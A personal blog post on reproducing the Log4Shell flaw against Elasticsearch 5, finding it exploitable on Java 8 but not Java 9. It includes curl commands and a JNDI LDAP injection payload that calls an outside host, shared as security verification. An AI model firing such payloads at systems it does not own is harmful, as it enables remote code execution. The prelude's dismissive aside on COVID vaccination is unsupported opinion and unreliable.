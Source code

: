 ```yaml
---
title: Log4shell affects ElasticSearch 5 on Java 8 but not on Java 9
date: 2021-12-21 23:08:54
tags:
- hackers
---
```


## Ranty Prelude

I need to see "your truth" with my own eyes before I cargo-cult your imposed commandments to perform some upgrades. If I'm vulnerable, prove it, else how will I know I solved the problem? Just keep taking your word for it, yeah?

This experience had synchrony with the disputations relating to COVID-19, specifically how we cargo-cult the vaccinations without proof of vulnerability nor proof of patching of said vulnerability. I don't talk about politics on this site but damn this was such funny parallel it's impossible not to point it out.

Some of us just need evidence... we need to exploit or at least see proof of exploitability, before drastic action is warranted, for the drastic action could cause undesired side effects to a system that is otherwise working fine. This is scientific. Anything else is unscientific. I am so tired of appeal to authority or majority "consensus" being considered anything but <a href="https://www.developgoodhabits.com/appeal-to-authority/">fallacious. Sadly not everyone takes Logic.</a>

When I'm lost I turn to IRC. Here's my nice experience sharing (extending the brainstorming beyond my team) this with #elasticsearch on <a href="https://libera.chat/">libera.chat</a> IRC

## Fishing Line to Finish Line

**keyvan:**
good afternoon. im looking for help reproducing the log4shell hack on my ES 5 instance. i have enabled slowlogger and can see my jdni-infected query in the logs, but it does not seem to call out to the external server. i have verified the external setup (im using log4shell.huntress.com) with a small example project containing only various log4j versions and it does work; but it seems elasticsearch isn't affected? but it should be? thanks

**wwalker:**
keyvan: does ES 5 run a new enough log4j to be affected?  ES5 seems like it probably ran log4j rather than log4j-2

**keyvan:**
wwalker: i think it uses log4j 2.9, i know 5.6.10 there's a PR that bumps it to 2.11. there is a table here that shows 5 is supposed to be vulnerable https://discuss.elastic.co/t/apache-log4j2-remote-code-execution-rce-vulnerability-cve-2021-44228-esa-2021-31/291476 but what is interesting is that it appears if on Java 9 (on ES6) you're not vulnerable? so i am wondering if i am not able to repro because im on Java9 on ES5... 

**keyvan:**
i will be downgrading to Java 8 to verify this (the "more vulnerable java") according to that table...

**keyvan:**
haHA!!!!!!!! yep, my ES5 with java 8 was vulnerable... but with Java 9 was NOT.. 

### Appendix

## Eating the Fish

Here we have our basic Log4J tester project in which the log4j dependency can be changed easily in the gradle.properties file: https://github.com/kfatehi/log4shell-test-log4j-intellij-idea-project

Then, for the elasticsearch side of things, we've got here a java8 container which is vulnerable to the JNDI attack: https://github.com/kfatehi/docker-elasticsearch5-java8

Finally, we can swap Java 8 for Java 9 (<a href="https://github.com/kfatehi/docker-elasticsearch5-java8/blob/master/Dockerfile#L16">link in the Dockerfile</a>) and witness that the attack does not work.

## Forcing All Queries to Get Logged

```
curl -XPUT 'http://localhost:9200/_all/_settings?preserve_existing=true' -d '{
  "index.search.slowlog.threshold.fetch.debug" : "0ms",
  "index.search.slowlog.threshold.fetch.info" : "0ms",
  "index.search.slowlog.threshold.fetch.trace" : "0ms",
  "index.search.slowlog.threshold.fetch.warn" : "0s",
  "index.search.slowlog.threshold.query.debug" : "0s",
  "index.search.slowlog.threshold.query.info" : "0s",
  "index.search.slowlog.threshold.query.trace" : "0ms",
  "index.search.slowlog.threshold.query.warn" : "0s"
}'
```

## Making the Query

```
curl -XPUT 'http://localhost:9200/my-index' -d '{
{
    "query": {
        "bool" : {
            "must" : {
                "query_string" : {
                    "query" : "${jndi:ldap://log4shell.huntress.com:1389/uuid...}"
                }
            }
        }
    }
}
```
